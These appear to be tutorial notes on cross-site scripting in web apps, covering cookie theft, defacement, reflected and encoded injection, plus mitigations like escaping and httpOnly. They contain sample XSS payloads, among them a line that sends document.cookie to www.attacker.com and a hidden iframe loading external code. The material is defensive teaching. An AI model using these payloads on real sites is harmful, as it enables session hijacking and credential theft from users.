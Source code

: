 ## HTML Javascript Injection

-   Most common XSS language is of course the most popular client-side scripting language
    -   Javascript, often in combination with HTML
    -   <script>alert('Hello');</script>
    -   <img src="javascript:alert('Hello')">
    -   <table background="javascript:alert('Hello')">
-   Escaping user input is essential

### Cookie Theft

-   Javascript enforces same origin policy
    -   Script from one domain cannot access cookies of another domain
-   'document.cookie' holds the cookie of the originating web server
    -   You can read & write this property if you embed the code directly in HTML document
    -   <script>document.write(document.cookie);</script>
    -   But that is not useful to the attacker as they will see their own cookie
-   This will try to load an image from the specific url plus the cookie
    -   document.write('<img src="http://www.attacker.com/' + document.cookie + '">')
    -   This url doesn't exist, so the browser displays nothing
        -   But the attacker can review their web server's access log files
        -   To see the victim's cookie
    -   The log files on 'www.attacker.com' will read like this
        -   GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
-   These attackes can be mitigated by adding the 'httpOnly' flag to cookies
    -   So that 'document.cookie' may not be read by javascript
    -   Though the cookies will still be visible using Ajax

### Defacement

-   With web page defacement, an attacker can do a lot of things. For example,
    -   Present false information or lure the victim on the attacker's website
    -   To steal cookie, login credentials, or other sensitive data
-   Most popular way is to include code from external sources by iframes
    -   <iframe src="http://58.xx.xxx.xxx" style="display:none"></iframe>
    -   This loads arbitrary html and/or javascript from external source
    -   And embeds it as part of the site
-   A more specialized attack could overlap the entire website
    -   Or display a login form which looks the same as the site's original
        -   But transmits the username & password to the attacker's site
    -   Or it could use CSS and/or javascript to hide a legitimate link
        -   And display another one at its place which redirects to a fake website
-   Reflected injection attacks are those where the payload is not stored
    -   It's not presented to the victim, but it's included in the url
    -   Especially search forms fail to escape the search string
    -   `http://www.news.com/?zipcode=1--><script src=http://www.attacker.com></script><!--`

### Obfuscation and Encoding Injection

-   Network traffic is mostly based on the limited western alphabet
-   So new char encodings like unicode emerged to transmit chars in other languages
    -   But this is also a threat to web apps
    -   As malicious code can be hidden in different encodings
    -   That web browser might be able to process but web app might not
    -   <img src=&#106;&#97;&#118; ...>
-   `sanitize()` method does a good job to fend off encoding attacks
